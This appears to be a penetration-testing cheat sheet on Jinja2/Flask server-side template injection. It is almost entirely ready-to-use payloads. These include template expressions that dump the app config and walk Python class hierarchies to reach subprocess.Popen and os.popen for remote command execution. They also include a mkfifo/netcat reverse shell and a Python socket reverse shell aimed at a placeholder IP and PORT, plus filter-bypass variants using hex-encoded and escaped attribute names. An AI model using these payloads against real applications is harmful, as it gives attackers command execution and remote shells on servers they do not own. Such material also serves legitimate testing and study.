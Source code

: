 # jinja2 flask SSTI

## Info

```
Method Resolution Order (mro): allows to go up the inherited objects chain
subclasses: going down the inheritance chain
```

## Jinja2 Templates

Jinja2 supports templates for the format

* `{{ ... }}`
* `{% ... %}`

## subprocess.pOpen method

```
# print all config vars
{{config}}
{{config.items()}}

# find the mro object[X] to list all subclasses
{{ ''.__class__.__mro__ }}
{{ ''.__class__.__mro__[X].__subclasses__() }} => list of all subclasses

# find subprocess.pOpen class
{{ ''.__class__.__mro__[X].__subclasses__()[XXX] }} => <class 'subprocess.pOpen'>

# RCE
{{ ''.__class__.__mro__[X].__subclasses__()[XXX]('id', shell=True, stdout=-1).communicate() }}
```

## RCE

```bash
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}

# revshell
{{ request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f').read() }}
```

### brute-RCE

```
{% for x in ().class.base.subclasses() %}{% if "warning" in x.name %}{{x()._module.builtins['import']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("IP",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/bash", "-i"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

## Bypass restrictions (1)

```bash
# https://hackmd.io/@Chivato/HyWsJ31dI

{% for x in ().__class__.__base__.__subclasses__() %}
    {% if "warning" in x.__name__ %}
        {{x()._module.__builtins__['__import__']('os').popen("ls").read()}}
    {%endif%}
{%endfor%}

# is converted (via hex encoding)

{% for a in []["5F5F636C6173735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F626173655F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F737562636C61737365735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]() %}
    {% if "7761726E696E67"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78") in a["5F5F6E616D655F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")] %}
        {{a()["5F6D6F64756C65"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F6275696C74696E735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F696D706F72745F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]("6F73"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78"))["706F70656E"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]("6563686F2024666C6167"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78"))["72656164"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]()}}
    {%endif%}
{%endfor%}
```

## Bypassing restrictions (2)

```bash
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}
# modifying {{ }} to a different method using {% %}
# modifying ' to "
# modifying _ to \x5f

{% request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() %}

# using with
|  {% with %} ... {% endwith %} 

{% with kashz=request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("id")["read"]()  %} kashz {% endwith %}

# can trying bas64 payload
```

## References

* [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) 
* [https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)
